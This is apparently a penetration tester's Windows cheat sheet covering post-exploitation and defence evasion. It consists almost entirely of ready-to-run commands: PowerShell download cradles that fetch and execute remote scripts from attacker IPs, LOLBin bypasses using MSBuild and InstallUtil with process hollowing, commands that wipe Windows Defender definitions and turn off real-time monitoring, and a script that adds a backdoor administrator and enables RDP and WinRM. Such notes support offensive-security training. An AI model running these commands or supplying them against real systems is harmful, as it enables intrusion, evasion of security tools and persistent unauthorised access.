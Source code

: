                     $h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.16.7/PowerView.obs.ps1',$false);$h.send();iex $h.responseText
            //File Download:
                powershell -c wget http://192.168.49.121/a.txt -outfile c:\windows\tasks\a.txt
                (New-Object System.Net.WebClient).DownloadFile("http://192.168.119.155/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")
                //PS 4+:
                    IWR -Uri http://192.168.45.158 -OutFile C:\Users\bob\AppData\Local\Microsoft\WindowsApps\srrstr.dll
                //Using Kerberos Creds:
                    Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://web.htb.local
                    //or:  cmd /c curl --negotiate -u : http://web.htb.local -o out.html -v
        //Removing Mark of the Web (MOTW):  echo "" > C:\Tools\InstallUtilBypass.exe:Zone.Identifier (if downloaded from browser - error 0x80131515)

    //**MAIN BYPASS METHODS:
        //Shell:
            1. MSBuild.exe > Hollow.csproj
            2. InstallUtil.exe > In-memory PS load Hollow.dll
        //PS Commands/Enumeration:
            1. InstallUtil.exe > In-memory PS download scripts and run
            2. MSBuild.exe > PowerLessShell.py-generated .csproj file w/ PS commands

    //Disable Defender:
        (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/DisableDefender.ps1') | IEX
            # Remove Windows Defender definitions
            & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
            # Disable Windows Defender real-time monitoring
            Set-MpPreference -DisableRealtimeMonitoring $true
        //Or: c:\PROGRA~1\WINDOW~1\MpCmdRun.exe -RemoveDefinitions -All

    //Create New User & Enable RDP:
        (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/CreateAdmin.ps1') | IEX
            # Create new administrator
            net user bob abc123! /add
            net localgroup administrators bob /add
            # Enable RDP if it's currently disabled
            $RDP = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections"
            if ($RDP.fDenyTSConnections -eq 1) {
                Write-Output "Enabling Remote Desktop..."
                Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
                netsh advfirewall firewall set rule group='remote desktop' new enable=Yes
                Write-Output "Remote Desktop is now enabled."
            } else {
                Write-Output "Remote Desktop is already enabled."
            }
        //MSF:  use post/windows/manage/enable_rdp
        //Enable WinRM:
            Enable-PSRemoting -Force -SkipNetworkProfileCheck
